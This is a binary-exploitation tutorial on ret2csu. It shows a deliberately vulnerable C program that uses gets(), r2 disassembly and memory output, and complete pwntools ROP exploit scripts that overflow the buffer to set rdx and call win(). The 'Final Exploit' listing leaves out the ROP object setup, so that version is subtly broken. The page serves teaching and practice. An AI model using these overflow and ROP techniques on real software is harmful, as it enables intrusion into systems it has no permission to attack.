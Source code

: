 # Exploitation

## Source

```c
#include <stdio.h>

int win(int x, int y, int z) {
    if(z == 0xdeadbeefcafed00d) {
        puts("Awesome work!");
    }
}

int main() {
    puts("Come on then, ret2csu me");

    char input[30];
    gets(input);
    return 0;
}
```

Obviously, you can do a ret2plt followed by a ret2libc, but that's _really_ not the point of this. Try calling `win()`, and to do that you have to populate the register `rdx`. Try what we've talked about, and then have a look at the answer if you get stuck.

## Analysis

We can work out the addresses of the massive chains using r2, and chuck this all into pwntools.

```text
[...]
0x00401208      4c89f2         mov rdx, r14
0x0040120b      4c89ee         mov rsi, r13
0x0040120e      4489e7         mov edi, r12d
0x00401211      41ff14df       call qword [r15 + rbx*8]
0x00401215      4883c301       add rbx, 1
0x00401219      4839dd         cmp rbp, rbx
0x0040121c      75ea           jne 0x401208
0x0040121e      4883c408       add rsp, 8
0x00401222      5b             pop rbx
0x00401223      5d             pop rbp
0x00401224      415c           pop r12
0x00401226      415d           pop r13
0x00401228      415e           pop r14
0x0040122a      415f           pop r15
0x0040122c      c3             ret
```

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
```

{% hint style="info" %}
Note I'm not popping RBX, despite the `call`. This is because RBX ends up being `0` anyway, and you want to mess with the least number of registers you need to to ensure the best success.
{% endhint %}

## Exploitation

### Finding a win\(\)

Now we need to find a memory location that has the address of `win()` written into it so that we can point `r15` at it. I'm going to opt to call `gets()` again instead, and then input the address. The location we input to is a fixed location of our choice, which is reliable. Now we just need to find a location.

To do this, I'll run r2 on the binary then `dcu main` to contiune until main. Now let's check permissions:

```text
[0x00401199]> dm
0x0000000000400000 - 0x0000000000401000 - usr     4K s r--
0x0000000000401000 - 0x0000000000402000 * usr     4K s r-x
0x0000000000402000 - 0x0000000000403000 - usr     4K s r--
0x0000000000403000 - 0x0000000000404000 - usr     4K s r--
0x0000000000404000 - 0x0000000000405000 - usr     4K s rw-
```

The third location is RW, so let's check it out.

```text
0x00401199]> pxq @ 0x0000000000404000
0x00404000  0x0000000000403e20  0x00007f7235252180    >@......!%5r...
0x00404010  0x00007f723523c5e0  0x0000000000401036   ..#5r...6.@.....
0x00404020  0x0000000000401046  0x0000000000000000   F.@.............
```

The address `0x404028` appears unused, so I'll write `win()` there.

```python
RW_LOC = 0x00404028
```

### Reading in win\(\)

To do this, I'll just use the ROP class.

```python
rop.raw('A' * 40)
rop.gets(RW_LOC)
```

### Popping the registers

Now we have the address written there, let's just get the massive ropchain and plonk it all in

```python
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call
```

### Sending it off

Don't forget to pass a parameter to the `gets()`:

```python
p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

And we have successfully controlled RDX - without any RDX gadgets!

## Simplification

As you probably noticed, we don't _need_ to pop off r12 or r13, so we can move `POP_CHAIN` a couple of intructions along:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

rop = ROP(elf)

POP_CHAIN = 0x00401228        # pop r14, pop r15, ret
REG_CALL = 0x00401208         # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))
print(p.recvline())
```

